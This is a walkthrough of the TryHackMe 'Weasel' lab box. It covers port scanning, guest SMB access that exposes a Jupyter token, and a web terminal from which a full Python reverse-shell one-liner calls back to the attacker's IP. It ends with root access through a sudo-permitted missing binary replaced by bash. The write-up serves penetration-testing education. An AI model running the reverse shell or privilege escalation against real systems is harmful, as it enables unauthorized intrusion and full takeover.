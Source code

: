 # THM - Weasel

#### Ip: 10.10.220.178
#### Name: Weasel
#### Rating: Medium

----------------------------------------------------------------------

![weasel.png](../assets/weasel_assets/weasel.png)

### Enumeration

As always, lets kick things off by scanning all TCP ports with Nmap. Here I will also use the `--min-rate 10000` flag to speed the scan up.

```text
┌──(ryan㉿kali)-[~/THM/Weasel]
└─$ sudo nmap -p-  --min-rate 10000 10.10.220.178
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-07 14:41 CDT
Warning: 10.10.220.178 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.220.178
Host is up (0.13s latency).
Not shown: 63643 closed tcp ports (reset), 1877 filtered tcp ports (no-response)
PORT      STATE SERVICE
22/tcp    open  ssh
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
8888/tcp  open  sun-answerbook
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
49670/tcp open  unknown
49671/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 22.05 seconds
```
Lets enumerate open ports a bit further and use the `-sC` and `-sV` flags to use default Nmap scripts and to enumerate versions. I'll also use the `-T4` flags to increase the threads and speed things up.

```text
┌──(ryan㉿kali)-[~/THM/Weasel]
└─$ sudo nmap -sC -sV -T4 10.10.220.178 -p 22,135,139,445,3389,5985,8888,47001
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-07 14:42 CDT
Nmap scan report for 10.10.220.178
Host is up (0.12s latency).

PORT      STATE SERVICE       VERSION
22/tcp    open  ssh           OpenSSH for_Windows_7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 2b17d88a1e8c99bc5bf53d0a5eff5e5e (RSA)
|   256 3cc0fdb5c157ab75ac8110aee298120d (ECDSA)
|_  256 e9f030bee6cfeffe2d1421a0ac457b70 (ED25519)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2023-07-07T19:42:43+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=DEV-DATASCI-JUP
| Not valid before: 2023-03-12T11:46:50
|_Not valid after:  2023-09-11T11:46:50
| rdp-ntlm-info: 
|   Target_Name: DEV-DATASCI-JUP
|   NetBIOS_Domain_Name: DEV-DATASCI-JUP
|   NetBIOS_Computer_Name: DEV-DATASCI-JUP
|   DNS_Domain_Name: DEV-DATASCI-JUP
|   DNS_Computer_Name: DEV-DATASCI-JUP
|   Product_Version: 10.0.17763
|_  System_Time: 2023-07-07T19:42:34+00:00
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
8888/tcp  open  http          Tornado httpd 6.0.3
| http-title: Jupyter Notebook
|_Requested resource was /login?next=%2Ftree%3F
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -1s, deviation: 0s, median: -1s
| smb2-time: 
|   date: 2023-07-07T19:42:36
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.89 seconds
```

Ok cool, looks like we have a Windows machine here. It's a bit interesting to see SSH open on a Windows box, but definitely not unheard of. It's interesting to see Jupyter Notebook running on port 8888. Jupyter is a tool frequently used by folks in data analytics and data science type roles. 

Taking a quick peak at the page, it looks like we may need to find a token somewhere, or maybe we can create an account later on. 

![jupyter.png](../assets/weasel_assets/jupyter.png)

Either way lets keep enumerating the machine to see what else we can find.

Checking out the SMB shares, I see we can access the `datasci-team` and the `IPC$` shares. Cool. Knowing that data science teams frequently use Jupyter Notebooks, lets start there. 

![cme.png](../assets/weasel_assets/cme.png)

Logging into the share using smbclient, we find several interesting files. I'll pull all of them back to my machine locally for inspection.

```text
┌──(ryan㉿kali)-[~/THM/Weasel]
└─$ smbclient -U 'guest%' //10.10.220.178/datasci-team
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Jul  7 14:48:08 2023
  ..                                  D        0  Fri Jul  7 14:48:08 2023
  .ipynb_checkpoints                 DA        0  Thu Aug 25 10:26:47 2022
  Long-Tailed_Weasel_Range_-_CWHR_M157_[ds1940].csv      A      146  Thu Aug 25 10:26:46 2022
  misc                               DA        0  Thu Aug 25 10:26:47 2022
  MPE63-3_745-757.pdf                 A   414804  Thu Aug 25 10:26:46 2022
  papers                             DA        0  Thu Aug 25 10:26:47 2022
  pics                               DA        0  Thu Aug 25 10:26:47 2022
  requirements.txt                    A       12  Thu Aug 25 10:26:46 2022
  weasel.ipynb                        A     4308  Thu Aug 25 10:26:46 2022
  weasel.txt                          A       51  Thu Aug 25 10:26:46 2022

		15587583 blocks of size 4096. 8921463 blocks available

```

Several of the discovered files were random articles on weasels.

![random.png](../assets/weasel_assets/random.png)

But in the `/misc` directory I found jupyter-token.txt, which is especially interesting.

```text
┌──(ryan㉿kali)-[~/THM/Weasel]
└─$ cat jupyter-token.txt
067470c5ddsadc54153ghfjd817d15b5d5f5341e56b0dsad78a
```

Using this token allows me to login on port 8888

![login.png](../assets/weasel_assets/login.png)

Once logged in we can click on New > Terminal and we will be dropped into a web terminal. 

![web_term.png](../assets/weasel_assets/web_term.png)

From there we can head over to https://www.revshells.com/ and grab a Python reverse shell oneliner.

Back in the terminal after setting up a NetCat listener I run:

```text
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.6.61.45",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```
And catch a shell back in my listener:

```text
┌──(ryan㉿kali)-[~/THM/Weasel]
└─$ nc -lvnp 443 
listening on [any] 443 ...
connect to [10.6.61.45] from (UNKNOWN) [10.10.220.178] 51133
$ whoami
whoami
dev-datasci
$ hostname
hostname
DEV-DATASCI-JUP
```

Interestingly, this is a Windows machine, but I appear to be in a Linux environment. This must be Windows Subsystem for Linux (WSL), something I haven't played much with.

Not seeing any flags in the home directory I ran `sudo -l` to see what we can run with elevated permissions.

![sudo.png](../assets/weasel_assets/sudo.png)

Interestingly, this file doesn't seem to exist.

```text
(base) dev-datasci@DEV-DATASCI-JUP:/tmp$ ls -la /home/dev-datasci/.local/bin/jupyter
ls: cannot access '/home/dev-datasci/.local/bin/jupyter': No such file or directory
```

We can copy `/bin/bash` to a file with this name and then execute it as root:

```text
(base) dev-datasci@DEV-DATASCI-JUP:/tmp$ cp /bin/bash /home/dev-datasci/.local/bin/jupyter
(base) dev-datasci@DEV-DATASCI-JUP:/tmp$ sudo /home/dev-datasci/.local/bin/jupyter
root@DEV-DATASCI-JUP:/tmp# whoami
root
```
Even though I am the root user, I still am having a heard time finding the user.txt or the root.txt flags. 

Doing some searching around online I find that the system is usually hosted in the `/mnt` directory, and navigating there I see a `c` diectory, but it is empty, or not yet mounted.

I can mount the system using `mount -t drvfs 'c:' /mnt/c`

From there I can begin interacting with the Windows system.

```text
root@DEV-DATASCI-JUP:/mnt/c# dir
$Recycle.Bin		  PerfLogs	  Program\ Files\ (x86)  Recovery		      Users    datasci-team
Documents\ and\ Settings  Program\ Files  ProgramData		 System\ Volume\ Information  Windows  pagefile.sys
``` 

I can now grab the user.txt flag from dev-datasci-lowpriv's Desktop

![user_flag.png](../assets/weasel_assets/user_flag.png)

As well  as the root.txt from the Administrator's Desktop

![root_flag.png](../assets/weasel_assets/root_flag.png)

Thanks for following along!

-Ryan

--------------------------------------------------------------------------------------
